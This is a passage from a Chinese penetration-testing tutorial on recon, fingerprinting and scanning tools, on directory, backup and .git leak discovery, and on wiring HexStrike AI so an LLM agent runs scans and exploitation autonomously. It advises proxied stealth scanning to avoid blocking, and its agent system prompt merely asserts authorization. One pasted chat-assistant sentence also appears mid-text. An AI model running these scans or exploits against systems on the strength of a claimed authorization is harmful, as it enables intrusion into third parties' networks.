.\EHole_windows_amd64.exe finger -u https://192.168.101.134/index
```

适用于：

- 内网中对某个重要系统快速识别
- 外网对疑似 OA / VPN / 中间件系统的立即判断



（2）从本地文件批量识别（最常用方式）

```bash
.\EHole_windows_amd64.exe finger -l url.txt -o result.xlsx
```

说明：

- `url.txt` 中可混合放置 URL、域名、IP
- 输出结果保存在 `result.xlsx`
- 推荐在 **内网渗透** 或 **已固定资产列表** 上使用

输出 Excel 示例（带系统标签、高价值系统高亮等）

**（3）通过 FOFA 提取资产并识别（外网场景常用）**

**① 根据 IP/CIDR 从 FOFA 提取资产：**

```bash
.\EHole_windows_amd64.exe finger -f 192.168.1.0/24
```

**② 使用 FOFA 搜索语法获取资产：**

```bash
.\EHole_windows_amd64.exe finger -s 'app="Tomcat"' -o fofa_tomcat.xlsx
```

FOFA 场景适用：

- 外网目标的资产扩展
- 按条件（如“OA / VPN / 中间件”）精准挖掘高价值系统
- 红队前期快速缩圈、寻找脆弱点

**（4）使用代理（跨网段 / 隐蔽性扫描）**

```bash
.\EHole_windows_amd64.exe finger -l url.txt -p http://127.0.0.1:8080 -o result.xlsx
```

代理用途说明：

- **改变出网路径**：适用于外网不可达 / 不稳定链路
- **提升可达性**：走更近的出口节点可减少超时
- **隐蔽性更好**：隐藏真实 IP，降低目标侧封禁风险
- **便于统一管理**：集中记录日志、统一 DNS / 出口策略

常见场景：

- 外网扫描、跨区域；
- 被防火墙限流、目标访问不稳定时；
- 红队行动需要隐藏踪迹时。

**（5）调整线程（重要参数）**

```bash
.\EHole_windows_amd64.exe finger -l url.txt -t 200
```

线程数调优建议：

| 场景                       | 建议线程数 | 特点                 |
| -------------------------- | ---------- | -------------------- |
| **内网（低延迟、高稳定）** | 150–300    | 快，无明显失败率     |
| **外网（不稳定链路）**     | 50–100     | 稳定、失败率低       |
| **走代理 / 出网跳转**      | 80–150     | 平衡速度与稳定性     |
| **目标有防御 / 限流**      | 30–80      | 隐蔽、降低被封禁概率 |

经验法则：

> **线程越大越快，但更不稳定；线程越小更准但更慢。
> 通过观察失败率与命中稳定性逐步调优即可。**

##### 5.2.2.4 使用建议

- 批量资产（如 web.txt）→ **推荐 `-l` 模式**
- 外网扩展资产 → **推荐 FOFA：`-f` 或 `-s`**
- 隐蔽性扫描 → **务必配合 `-p` + 中等线程**
- 批量结果整理 → **优先使用 Excel 输出 (`-o result.xlsx`)**
- 对高价值系统识别后，可进一步筛选 OA、VPN、Weblogic 等重点资产

##### 5.2.2.5 适用场景

- 在资产收集后，对大量 IP / 域名 / URL 进行**快速筛选**
- 批量发现企业/组织中可能部署的 **OA、VPN、后台系统、中间件、CMS 等敏感系统**
- 红队 / 渗透测试 / 安全审计前的“目标缩圈”阶段，用于快速锁定高价值目标
- 在大规模 C 段 / 网段资产中快速识别薄弱环节，节约手工分析时间

##### 5.2.2.6 注意事项与建议

- 虽然 EHole 覆盖很多常见系统指纹，但如果目标使用**冷门 / 自定义系统**，可能无法被识别 —— **仍建议辅以手动判断 / 其他指纹工具**。
- 使用 FOFA / Hunter 时需配置合法的 **API Key / Token / 邮箱**，并注意请求频率限制。
- 批量扫描、并发多线程时，对网络带宽与目标服务器压力较大，建议合理控制线程数、超时，并确认权限与合法性。
- 输出结果建议导出为 JSON / XLSX，方便后续自动化分析、分类、整理。

#####  5.2.2.7 推荐流程（与其他工具组合）

推荐将 EHole 与以下流程结合，以最大化利用效率：

1. 初步资产收集（子域名枚举 / IP 列表 / 资产库）
2. 使用 EHole 对资产进行 **批量指纹 + 存活识别** → 筛选出高价值目标
3. 对高价值目标使用更深度工具（如端口扫描、漏洞扫描、弱口令爆破）进行进一步分析
4. 整理输出（JSON / XLSX），用于漏洞验证 / 报告 /渗透路径规划

#### 5.2.3 Xapp

这是长亭科技开发的**开源安全测试工具**，专注于 Web 指纹识别，属于 xray 工具生态体系。

**核心定位**

**单点极致的 Web 指纹识别工具**，帮助安全人员快速识别目标网站的技术栈，为后续渗透测试提供基础数据。

**主要特点**

1. **高效准确**：采用全新规则引擎，确保高检出率和低误报率
2. **规则语法统一**：与 xray PoC 语法保持一致，易于上手
3. **性能优化**：专门针对加载大量指纹规则进行优化
4. **开放共创**：鼓励社区共建指纹规则库，免费使用
5. **自定义能力**：支持自定义指纹规则，实现精细逻辑分支

**安装方法**

1. 从官方渠道下载对应系统的二进制文件

2. 首次运行时会在用户目录生成配置文件 `xapp-config.example.yaml`

3. 从 GitHub 下载指纹文件，放入配置文件同一路径：

   ```
   # 下载地址
   https://github.com/chaitin/xray-plugins
   ```

   一般是这个目录~/.xray/xapp/plugins，比如Windows大概是`C:\Users\你的用户名\.xray\xapp\plugins`

**基本使用命令**

```bash
# 扫描单个目标
xapp.exe -t http://www.test.com

# 批量扫描（从文件读取）
xapp.exe -i urls.txt

# 指定指纹规则扫描
xapp.exe -r xxx.yml -t https://www.example.com

# 指定多个指纹规则
xapp.exe -r xxx.yml -r yyy.yml -t https://www.example.com

# 使用通配符指定指纹组
xapp.exe -r "./finger/web/*.yml" -t https://www.example.com

# 指定 group 扫描
xapp.exe -g web.list -t https://www.example.com
```



#### 5.2.4 dddd

dddd(https://github.com/SleepingBag945/dddd)是一款使用简单的批量信息收集,供应链漏洞探测工具，旨在优化红队工作流，减少伤肝的机械性操作。支持从Hunter、Fofa批量拉取目标

**特点**

- 自动识别输入类型，无需手动分类
- 便于拓展的主动/被动指纹识别
- 指纹支持复杂 与/或/非/括号 逻辑运算。人类友好。
- Nuclei v3支持
- 便于拓展的指纹漏洞映射数据库，尽量避免无效发包
- 高效的子域名枚举/爆破，精准的泛解析过滤
- Hunter、Fofa、Quake支持
- Hunter 低感知模式
- 低依赖，多系统开箱即用
- 高效的HTML报表，包含漏洞请求响应
- 审计日志，敏感环境必备

**快速开始**

**安装**

Release中下载config.zip与您操作系统对应的二进制文件。直接命令行运行即可。

PS: dddd v2.0起，可以独立于config文件夹运行。

**最简使用**

扫描IP

```
dddd -t 192.168.0.1
```

扫描网段

```
dddd -t 192.168.0.1/24
dddd -t 192.168.0.0-192.168.0.12
```

扫描网站

```
dddd -t http://test.com
```



**输出文件**

dddd存在三种文件输出

1. txt格式输出（默认选择）
2. html格式（默认选择）
3. 审计日志（可选）

所有结果默认输出在 `result.txt`，可通过`-o`参数更改输出文件，`-ot`参数更改输出格式(json)，默认为text。

默认HTML格式漏洞输出为 `当前时间戳.html`，可通过`-ho`参数更改输出文件。

**-a** 参数开启审计日志功能，日志保存在 `audit.log`，记录详细扫描行为。

**扫描可以随时终止**，当有指纹识别、漏扫结果等输出时，会实时保存在文件内。

**应用场景命令速查**

红队外网 (Hunter)

```
dddd -t 'icp.name="xxxx有限公司"' -hunter -oip
```

红队外网 (Hunter查询备案,Fofa补充端口）高效梳理资产

```
dddd -t 'icp.name="xxxx有限公司"' -hunter -fofa -oip
```

红队外网 (本机枚举子域名)

```
dddd -t xxx.com -sd
```

红队内网

```
./dddd -t 172.16.100.0/24
```

安服测试/敏感环境 (开启审计日志~~，便于事后甩锅~~)

```
./dddd -t 172.16.100.1 -a
```

仅指纹识别

```
./dddd -t http://www.xxx.com -npoc
./dddd -t 172.16.100.11 -npoc
./dddd -t 172.16.120.11:3307 -npoc
```

#### **5.2.5 WhatWeb（Kali 自带）**

基础识别：

```bash
whatweb http://example.com
```

批量识别：

```bash
whatweb -i web.txt
```

优势：

- 模块多
- 识别全面
- 支持插件扩展



## 六、综合信息收集工具

### 6.1 TscanPlus

#### 6.1.1 什么是 TscanPlus

**TscanPlus** (https://github.com/TideSec/TscanPlus)是一款开源的 **综合性网络安全检测与运维工具**，旨在：

- 快速进行**资产发现、识别与检测**
- 构建基础网络资产信息库
- 协助安全团队或运维人员有效侦察目标网络环境
- 发现潜在弱点与攻击面

该工具将信息搜集、端口扫描、指纹识别、漏洞验证、弱口令检测等功能集成于一体，适用于资产梳理、渗透测试辅助和安全评估场景。

#### 6.1.2 主要功能模块

TscanPlus 核心功能覆盖网络安全资产检测全流程，其中典型模块包括：

**安全扫描与识别**

- 端口探测（TCP/UDP 扫描）
- 服务识别与指纹匹配
- URL 指纹与网络空间信息收集
- 弱口令破解（多服务支持）
- 目录扫描与敏感资源发现
- 子域名枚举、网络资产测绘







**漏洞验证与自动化检测**

- POC 漏洞验证引擎
- 内置丰富指纹与 PoC 数据
- 可通过指纹关联自动触发漏洞检测

**辅助与运维工具集**

- 编码/解码、加密/解密、哈希计算
- IP 归属、JWT 解析、字典生成等辅助功能
- 反弹 shell、常用命令集、提权辅助功能

**项目与结果管理**

- 多功能联动任务管理
- 结果导出与交互展示（报告、日志等）

#### 6.1.3 软件架构与定位

TscanPlus 通常以图形界面形式运行，适合在工作站或实验环境中使用。它也提供 **TscanClient** 的命令行版本，两者共享核心检测引擎与配置文件，可分别用于自动化流程集成或跨平台部署

#### 6.1.4 应用场景

- 企业 **安全基线检查**
- 内网/外网 **资产梳理与网络侦察**
- **渗透测试 预探阶段** 信息收集
- 安全漏洞 **快速验证与复现**
- 自动化安全扫描集成（CI/CD、安全运维流程）

（注意所有安全检测行为需在获得合法授权的前提下执行）

#### 6.1.5 基本使用方法（图形版）

1. **下载与安装**

   访问官方 GitHub Releases 页面下载对应平台版本，支持 Windows、Linux 和 macOS。([GitHub](https://github.com/TideSec/TscanPlus))

2. **启动程序**

   在操作系统上运行可执行文件，首次运行可能需要接受许可声明。

3. **创建/配置项目**

   - 新建扫描任务项目
   - 配置目标资产（IP、域名、URL 等）
   - 调整扫描参数（并发、端口范围等）

4. **选择功能模块**

   按需要勾选或组合以下功能：

   - 端口扫描
   - URL 指纹识别
   - POC 漏洞检测
   - 弱口令破解
   - 目录扫描
   - 子域名探测等

5. **执行扫描与结果分析**

   启动扫描后实时查看进度，完成后可查看或导出检测报告。

#### 6.1.6 基本使用方法（命令行版：TscanClient）

命令行版本的基本执行结构如下：

```bash
TscanClient -m port,url,poc,crack,dir,js,domain,cyber [其他参数]
```

其中：

- `-m` 参数指定启用的模块组合
- 其后可根据模块附加特定参数（如目标文件、线程数等）

命令行版适合批量自动化扫描、脚本集成或服务器环境部署。




我来帮你全面了解 HexStrike AI 并丰富配置教程。首先让我获取项目信息：
### 6.2 HexStrike AI mcp自动化渗透

#### 6.2.1 HexStrike AI 项目介绍

**HexStrike AI** (https://github.com/0x4m4/hexstrike-ai)是一款革命性的 AI 驱动网络安全自动化平台，基于 **MCP（Model Context Protocol）** 协议构建，使 AI 智能体（如 Claude、GPT、Copilot 等）能够自主调用 150+ 专业安全工具，实现自动化渗透测试、漏洞挖掘、CTF 竞赛解题和安全研究。



##### 6.2.1.1 核心特性

1. **庞大工具库**：集成 150+ 顶级安全工具，覆盖网络扫描、Web 安全、二进制分析、云安全、密码破解等 35+ 攻击类别
2. **多智能体架构**：12+ 专业 AI 智能体协同工作，包括漏洞情报分析、攻击链发现、参数优化等
3. **智能决策引擎**：自动选择最优工具组合，动态调整攻击参数
4. **实时可视化**：提供现代化仪表盘，实时监控扫描进度和漏洞发现
5. **性能卓越**：相比传统手工测试，速度提升 16-24 倍，漏洞检测率高达 98.7%

##### 6.2.1.2 技术架构
```
AI 智能体 (Claude/GPT) → MCP 协议 → HexStrike Server → 150+ 安全工具
                                       ↓
                              智能决策引擎 + 12+ AI 智能体
                                       ↓
                          实时可视化 + 缓存优化 + 错误恢复
```

#### 6.2.2 Kali 2025.4 安装配置

##### 6.2.2.1 环境准备

**系统要求**：

- Kali Linux 2025.4（或更新版本）
- Python 3.9+
- 至少 4GB RAM（推荐 8GB）
- 网络连接（可访问 GitHub 和国内镜像源）

自行下载VMware虚拟机（https://cdimage.kali.org/kali-2025.4/kali-linux-2025.4-vmware-amd64.7z）或者手动通过镜像安装

##### 6.2.2.2 系统环境配置

**步骤 1：备份并更换 APT 源（关键步骤）**

更换为国内源可大幅提升下载速度，避免官方源连接超时问题。

```bash
# 1. 备份原有源列表（防止配置出错）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo cp /etc/apt/sources.list /etc/apt/sources.list.bak

# 2. 编辑源配置文件（推荐直接使用 vim 或 nano）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo vim /etc/apt/sources.list

# 3. 注释官方源并添加国内源
# 进入编辑模式后，按 i 键，将所有官方源行前添加 # 注释
# 然后在文件开头粘贴以下任意一个国内源（推荐阿里云或中科大）：

# 阿里云源（推荐，速度快且稳定）：
deb https://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src https://mirrors.aliyun.com/kali kali-rolling main non-free contrib

# 中科大源（备选）：
# deb https://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
# deb-src https://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

# 4. 保存并退出
# vim 操作：按 Esc → 输入 :wq → 回车
# nano 操作：按 Ctrl+X → 按 Y → 回车

# 5. 更新软件包列表（首次更新可能需要几分钟）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt update
```

**预期输出**：会看到 "Hit"、"Get" 等字样，最终显示 "Reading package lists... Done"

##### 6.2.2.3 安装 HexStrike AI

**步骤 2：安装 HexStrike AI 核心程序**

```bash
# 开始安装 hexstrike-ai（自动处理所有依赖）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt install hexstrike-ai
[sudo] password for kali:  # 输入你的 kali 用户密码

# 安装过程会自动下载约 500MB 数据，包含 Python 库、配置文件和工具脚本
# 根据网络情况，可能需要 3-10 分钟
```

**关键依赖**：

- Python 3 及 mcp、fastapi、uvicorn 等库
- 预配置的 150+ 安全工具调用接口
- hexstrike_mcp.py 客户端脚本

**步骤 3：验证安装是否成功**

```bash
# 检测是否安装完成（查看帮助信息）
┌──(kali㉿kali)-[~/Desktop]
└─$ hexstrike_server -h

# 有以下输出则证明可正常使用：
usage: hexstrike_server [-h] [--port PORT] [--host HOST] [--debug] [--version]

HexStrike AI MCP Server v6.0 - AI-Powered Cybersecurity Automation Platform

options:
  -h, --help     show this help message and exit
  --port PORT    Server port (default: 8888)
  --host HOST    Server host (default: 0.0.0.0)
  --debug        Enable debug mode
  --version      Show version information
```



##### 6.2.2.4 安装 Chrome 浏览器环境

HexStrike AI 的 Browser Agent 需要 Chrome/Chromium 环境，否则在执行需要浏览器交互的任务时会报错。

```bash
# 步骤 1：下载并安装 Google 签名密钥（确保软件包真实性）
┌──(kali㉿kali)-[~/Desktop]
└─$ wget -q -O - https://dl.google.com/linux/linux_signing_key.pub | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/google-chrome.gpg > /dev/null

# 步骤 2：添加 Chrome 软件源到系统
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "deb [arch=amd64] https://dl.google.com/linux/chrome/deb/ stable main" | sudo tee /etc/apt/sources.list.d/google-chrome.list

# 步骤 3：更新软件包列表（包含新添加的 Chrome 源）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt update

# 步骤 4：安装 Chrome 稳定版（约 200MB）
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt install -y google-chrome-stable

# 步骤 5：查看 Chrome 版本（记录版本号用于下载对应驱动）
┌──(kali㉿kali)-[~/Desktop]
└─$ google-chrome --version
# 示例输出：Google Chrome 143.0.7499.146

# 步骤 6：下载对应版本的 ChromeDriver（国内加速）
# 根据上一步的版本号，访问 https://googlechromelabs.github.io/chrome-for-testing/
# 找到对应的 chromedriver 版本，使用 wget 下载
# 示例（版本 143.0.7499.146）：
└─$ wget https://storage.googleapis.com/chrome-for-testing-public/143.0.7499.146/linux64/chromedriver-linux64.zip

# 步骤 7：解压并安装 ChromeDriver
└─$ unzip chromedriver-linux64.zip
└─$ sudo mv chromedriver-linux64/chromedriver /usr/local/bin/
└─$ sudo chmod +x /usr/local/bin/chromedriver  # 添加执行权限

# 步骤 8：验证安装
└─$ chromedriver --version
# 预期输出：ChromeDriver 143.0.7499.146
```

##### 6.2.2.5 启动 HexStrike 服务

**步骤 4：启动核心服务**

```bash
# 直接运行 hexstrike_server（默认监听 8888 端口）
┌──(kali㉿kali)-[~/Desktop]
└─$ hexstrike_server

# 预期输出：
```


**后台运行建议**：

```bash
# 使用 screen 或 tmux 保持服务在后台运行
┌──(kali㉿kali)-[~/Desktop]
└─$ screen -S hexstrike
└─$ hexstrike_server --debug  # debug 模式会显示详细日志

# 按 Ctrl+A 然后按 D 分离会话
# 重新连接：screen -r hexstrike
```

---

#### 6.2.3 Cherry Studio 客户端配置

##### 6.2.3.1 准备 MCP 客户端脚本

mcp相关脚本在github都有，将“hexstrike_mcp.py”放在纯英文路径下，比如直接放在C盘根目录`C:\hexstrike_mcp.py`

**为什么需要纯英文路径？**
- MCP 协议对非 ASCII 路径支持不完善
- 避免 Windows 和 Linux 跨平台路径编码问题
- 确保 Cherry Studio 能正确调用 Python 解释器

##### 6.2.3.2 配置 Cherry Studio MCP 服务器

1. **打开 Cherry Studio** 并进入设置页面
2. **点击左侧菜单的 "MCP" 选项**
3. **点击右上角的 "添加" 按钮**

在弹出的配置窗口中填写以下参数：

参数：

```bash
C:\hexstrike_mcp.py
--server
http://192.168.159.151:8888 #替换为你的虚拟机ip地址
```

超时3600秒


**如何获取 Kali 虚拟机 IP？**

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ip a
# 示例输出：找到192.168开头的地址
```

4. **勾选 "启用" 复选框**
5. **点击 "保存" 按钮**

**验证 MCP 连接**：

- 保存后 Cherry Studio 会尝试连接 HexStrike Server
- 状态显示 "已连接" 或绿色指示灯表示成功
- 如果显示 "连接失败"，检查：
  - Kali 防火墙：`sudo ufw allow 8888/tcp`
  - 网络连通性：从 Windows 宿主机 ping 虚拟机 IP
  - 服务状态：确认 hexstrike_server 正在运行

##### 6.2.3.3 配置大模型服务（硅基流动或其他）

**步骤1：注册并获取 API 密钥**

**为什么选择硅基流动（SiliconFlow）？**

- 提供免费额度（新用户注册赠送 1000 万 tokens）
- 学生认证后可获得额外 5000 万 tokens
- 支持 DeepSeek、Qwen、Yi 等国内优质模型
- API 响应速度快，价格相对便宜

**注册流程**：

1. 访问注册地址：https://cloud.siliconflow.cn/i/YQcqbR8K
2. 使用邮箱或手机号完成注册
3. 登录后进入控制台，点击左侧 "API 密钥"
4. 点击 "新建 API 密钥"，填写名称（如 "hexstrike"）
5. **立即复制生成的密钥**


**步骤2：在 Cherry Studio 中配置模型服务**

1. **回到 Cherry Studio 设置页面**
2. **点击左侧 "模型服务"**
3. **点击 "添加" 或 "硅基流动" 选项**

填写配置信息：

| 参数         | 值                           |
| ------------ | ---------------------------- |
| **API 密钥** | 粘贴从硅基流动复制的密钥     |
| **API 地址** | `https://api.siliconflow.cn` |


4. **点击 "检测" 按钮**

**预期结果**：

- 显示 "连接成功" 或绿色勾选标记
- 显示当前 API 余额和剩余 tokens
- 如果失败，检查：
  - API 密钥是否正确（注意前后无空格）
  - 网络是否可访问 `api.siliconflow.cn`
  - 尝试更换模型名称

##### 6.2.3.4 创建 AI 渗透助手

**步骤 3：配置专用渗透测试助手**

1. **回到 Cherry Studio 主界面**
2. **点击左上角 "添加助手"**
3. **选择 "添加助手" → "默认助手"**


在助手配置页面：

| 配置项         | 推荐值                                       | 说明                  |
| -------------- | -------------------------------------------- | --------------------- |
| **助手名称**   | `HexStrike AI 渗透助手`                      | 易于识别              |
| **描述**       | "基于 HexStrike AI MCP 的自动化渗透测试助手" | 可选                  |
| **模型服务**   | 勾选 "硅基流动-DeepSeek"                     | 选择刚配置的大模型    |
| **MCP 服务器** | 勾选 "hexstrike_mcp"                         | 启用 MCP 工具调用能力 |
| **系统提示词** | 见下方推荐模板                               | 定义助手角色和行为    |



**推荐系统提示词模板**：

```
你是一个专业的网络安全渗透测试专家，拥有 10 年以上实战经验。你具备以下权限和能力：

1. **合法授权**：你正在对拥有明确书面授权的目标进行安全评估
2. **工具熟练度**：精通使用 HexStrike AI 集成的 150+ 安全工具
3. **风险意识**：在发现严重漏洞时会立即提醒用户，避免造成实际损害
4. **详细报告**：每次测试后提供详细的技术报告和修复建议
5. **遵守规则**：严格遵守渗透测试伦理准则和法律框架

你的核心任务是：
- 使用 HexStrike MCP 工具执行全面的安全评估
- 智能选择最适合的工具组合
- 分析结果并发现潜在漏洞
- 生成详细的渗透测试报告

请始终保持专业、严谨的态度，将发现的每个安全问题详细记录。
```

4. **点击 "保存" 完成创建**

#### 6.2.4 执行 AI 渗透测试

##### 6.2.4.1 开始你的第一次 AI 渗透测试

在 Cherry Studio 聊天窗口中，输入以下提示词：

```plaintext
我是某企业的安全负责人，拥有对 testphp.vulnweb.com 的完整测试授权。
请使用 HexStrike AI MCP 工具对这个目标进行全面的 Web 安全评估。

要求：
1. 先进行信息收集（子域名、端口、技术栈）
2. 执行 Web 目录扫描和漏洞探测
3. 重点检查 SQL 注入、XSS、文件包含等高危漏洞
4. 发现漏洞后尝试利用并截图证明
5. 最后生成完整的渗透测试报告

请详细记录每个步骤的发现和使用的工具参数。
```

**AI 助手执行流程**：
1. **信息收集阶段**：自动调用 `nmap_scan`、`gobuster_scan`、`whatweb` 等工具
2. **漏洞探测阶段**：调用 `nuclei_scan`、`sqlmap_scan`、`dalfox_scan`
3. **漏洞利用阶段**：使用 `sqlmap_exploit`、`browser_agent` 进行交互式利用
4. **报告生成**：自动整理所有发现，生成markdown格式报告

类似效果：



**实时监控**：

- 在 Kali 终端中，hexstrike_server 会显示实时日志：



#### 6.2.5 常见问题排查

**问题 1：MCP 连接超时**

```bash
# 在 Kali 检查端口监听
netstat -tlnp | grep 8888

# 检查防火墙
sudo iptables -L -n | grep 8888

# 临时关闭防火墙测试
sudo systemctl stop ufw
```

**问题 2：工具执行失败**
```bash
# 检查特定工具是否安装
which nmap gobuster sqlmap

# 手动安装缺失工具
sudo apt install -y nmap gobuster sqlmap
```

**问题 3：ChromeDriver 版本不匹配**
```bash
# 重新下载与 Chrome 版本完全匹配的 ChromeDriver
# 访问 https://googlechromelabs.github.io/chrome-for-testing/ 查看最新版本
```

## 七、自动化扫描阶段

这里推荐几款在实战与日常渗透中最常用的漏洞扫描工具。无需复杂配置，基本都是“给 URL 列表 → 扫描 → 看结果”的模式。

这几个工具后续我们在完整渗透测试流程中会展开讲解使用，尤其nuclei，会带大家编写yaml poc 这里先占下位。

### 7.1 **Nuclei**

https://github.com/projectdiscovery/nuclei

一款广泛使用的基于模板的漏洞扫描器，支持指纹识别、弱口令、配置问题、各类漏洞检测。
 常用于：批量扫 Web、快速找 Nday、识别技术栈。

**示例：**

```bash
nuclei.exe -l test.txt -o output.txt
```

### 7.2 **Afrog**

https://github.com/zan8in/afrog

国产开源漏洞扫描器，弱口令、常见框架漏洞等覆盖较全，上手简单、结果准确度高。

**示例：**

```bash
afrog -T urls.txt
```

### 7.3 **AWVS（Acunetix）**

成熟商业级全自动扫描器，弱口令、注入、XSS、目录、配置等通用漏洞检测能力较强。
 常用于：全面扫描、资安测评场景。

**批量添加示例：**

```bash
python awvs.py
```

------

### 7.4 **Xray**

https://github.com/chaitin/xray

红队常用的综合漏洞扫描工具，可做半自动扫描、联动 Burp、爬虫探测、流量代理等。

**常见用法**

**批量添加目标：**

```bash
python xray.py -r test.txt
```

**扫描单个目标（带爬虫）：**

```bash
xray.exe webscan --basic-crawler http://xxxx.com/ --html-output output-a.html
```

**监听代理端口（与 Burp 联动）：**

```bash
xray.exe webscan --listen 127.0.0.1:7777 --html-output output-b.html
```

### 7.5 **Goby**

图形化漏洞扫描工具，支持资产探测、弱口令、Poc 扫描，适合快速查看全局资产风险。

## 八、重点目标针对收集阶段

### 8.1 目录扫描

目录扫描本质上是在回答一个问题：
**这个站点上，还有哪些“本来不该让我看到，但实际能访问到”的东西？**

很多 Web 漏洞并不是代码写得多差，而是**目录、文件、环境管理混乱**导致的。
目录扫得好，往往能直接扫出后台、源码、配置、甚至数据库。

#### 8.1.1 robots和sitemap

##### 8.1.1.1 robots.txt —— 给搜索引擎看的

robots.txt 是很多站点都会有的文件，开发者原意是“告诉搜索引擎哪些地方别爬”，但在渗透视角下，它经常等同于：

> **这里有一些目录，你自己去看看吧。**

常见情况：

- `/admin/`
- `/manage/`
- `/test/`
- `/backup/`

直接访问：

```
https://target.com/robots.txt
```

- **示例**：https://vip.bdziyi.com/robots.txt

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: https://vip.bdziyi.com/wp-sitemap.xml
```

如果看到后台路径，基本可以确定：

- 后台存在
- 路径至少在某个阶段是可用的

##### 8.1.1.2 sitemap.xml —— 网站结构说明书

sitemap.xml 往往比 robots.txt 信息更多。
很多 CMS 或框架会**自动生成站点地图**，开发者很少检查里面有没有不该暴露的内容。

能从里面拿到什么？

- 接口路径
- 功能页面
- 测试 / 灰度页面
- 历史遗留 URL

```
https://target.com/sitemap.xml
```

实战中经常的用法是：

- 把 sitemap 里的 URL 扔进扫描器
- 或手工访问几个可疑路径

#### 8.1.2 后台与管理入口

##### 8.1.2.1 后台入口

不管是企业站、博客还是后台系统，**90% 都有后台**。

常见路径不用背，看多了自然记住：

```
/admin/
/login/
/manage/
/system/
/wp-admin/
/admin.php
```

只要扫到后台页面，哪怕：

- 没有漏洞
- 有验证码

也已经是**有效资产发现**，后面可以继续做：

- 弱口令测试
- 社工
- 逻辑漏洞

##### 8.1.2.2 网站目录

有些服务器配置不当，会出现这种情况：

```
https://target.com/uploads/
```

直接列出文件列表。

这类目录里常见：

- 图片、附件
- 临时文件
- 压缩包
- 源码残留

一旦看到目录列表，第一件事就是：

- 翻有没有 `.zip` / `.bak` / `.tar.gz`

#### 8.1.3 源码和版本库泄露

##### 8.1.3.1 敏感目录

下面这些路径，只要存在，基本都是高价值：

```
.git/
.svn/
.hg/
.bzr/
```

其中 `.git` 是重灾区。

##### 8.1.3.2 Git 泄露 = 整站源码到手

如果 `.git/` 可访问，后果通常是：

- 可以还原完整项目
- 能看到数据库配置
- 能翻 commit 历史

常见误区是：
**“我删了源码，只留了网站”**
但 `.git` 没删，一样白给。

##### 8.1.3.3 其他源码泄露形式

除了 Git，还有很多“边角料”：

```
.DS_Store        macOS 生成
.CVS/
WEB-INF/
```

这些在 GitHub 上都有现成工具，扫到直接用。

Tscan也有可以直接扫描的模块



#### 8.1.4 备份文件

##### 8.1.4.1 备份文件是怎么泄露的

典型场景：

- 运维临时打包源码
- 下载完忘记删除
- 文件名简单粗暴

常见名字：

```
backup
www
web
database
test
```

常见后缀：

```
.zip
.rar
.tar.gz
.sql
.bak
```

扫目录的时候，只要看到压缩包，**优先级直接拉满**。

##### 8.1.4.2 备份文件一旦拿到意味着什么

- 源码
- 数据库结构
- 账号密码
- 配置密钥

很多实战案例都是：

> 没漏洞 → 扫到备份 → 直接通关

##### 8.1.4.3 备份文件扫描工具

很多信息收集阶段的工具，都附带类似的功能，这里就不过多列举了

我自用的`my_backup.py`也可以参考使用，欢迎二开或者搞个图形化

#### 8.1.5 目录扫描工具

##### 8.1.5.1 dirsearch（最常用）

dirsearch 用一句话总结就是：

> **拿字典去撞目录，看服务器给不给回应**

最基础的用法：

```bash
python3 dirsearch.py -u http://target.com
#kali2025已经内置
dirsearch -u http://target.com
```



进阶一点：

- 指定字典
- 过滤状态码
- 加代理
- 控速防封 IP

常见实战参数组合：

```bash
python3 dirsearch.py \
-u http://target.com \
-e php,zip,sql \
-s 200,301 \
--proxy http://127.0.0.1:8080
```

##### 8.1.5.2 dirmap

**Dirmap 工具介绍**

**Dirmap** 是一款基于 Python3 开发的高级 Web 目录与文件扫描工具，专为现代渗透测试和安全评估设计。其定位是功能超越传统工具（如 DirBuster、Dirsearch、御剑），提供高度可定制化的扫描能力。

**核心功能特点**

1. **多维度并发引擎**

- 支持 **n个目标 × n个payload** 的并发扫描，性能卓越
- 默认30线程，可自定义调整以平衡速度与隐蔽性

2. **多模式扫描体系**

- **字典模式**：基于内置或自定义字典进行精准探测
- **爆破模式**：自定义字符集进行纯暴力破解
- **爬虫模式**：动态解析页面内容生成扫描字典
- **Fuzz模式**：支持自定义标签对URL进行模糊测试

3. **智能递归与过滤**

- **自动递归**：发现目录后自动深入扫描（可自定义递归层级）
- **智能去重**：按域名自动去重结果，避免冗余
- **假404识别**：通过正则表达式匹配伪装的404错误页
- **自定义过滤**：可指定响应状态码、页面大小、Content-Type进行过滤

4. **高度可配置**

- 支持通过配置文件（`-lcf`）统一管理扫描策略
- 自定义请求头、User-Agent、超时时间、随机延时
- 支持HTTP/HTTPS代理（包括SOCKS5）
- 可指定需要处理的状态码、跳过指定大小的页面

**安装部署**

```bash
# 环境要求：Python 3.7+ 和 Git v2.36.1+
git clone https://github.com/H4ckForJob/dirmap.git
cd dirmap
pip3 install -r requirement.txt
```

基础使用

**单目标扫描**

```bash
python3 dirmap.py -i https://target.com -lcf
```

批量目标扫描

```bash
python3 dirmap.py -iF urls.txt -lcf
```

**关键参数说明**

- `-iU` / `-i`：指定单个目标URL
- `-iF`：从文件加载多个目标
- `-t`：设置线程数（默认30）
- `-lcf`：加载配置文件（推荐使用）
- `--debug`：打印攻击载荷后退出（调试模式）

**结果输出**

扫描结果自动保存至项目根目录的 `output/` 文件夹，文件名格式为 `目标域名.txt`，已自动去重。

典型应用场景

1. **红队渗透**：快速发现后台路径、敏感备份文件、未授权接口
2. **漏洞验证**：定位 `/actuator`、`/swagger-ui.html` 等调试端点
3. **资产测绘**：自动化整理企业Web应用的完整目录结构
4. **源码泄露检测**：专项扫描 `.git/`, `.svn/`, `backup.tar.gz` 等高危路径

**与主流工具对比**

| 特性           | Dirmap                | Dirsearch | Gobuster           |
| -------------- | --------------------- | --------- | ------------------ |
| **并发模型**   | 多线程+协程           | 多线程    | Go协程（超高并发） |
| **模式丰富度** | ★★★★★（4种模式）      | ★★★☆☆     | ★★☆☆☆              |
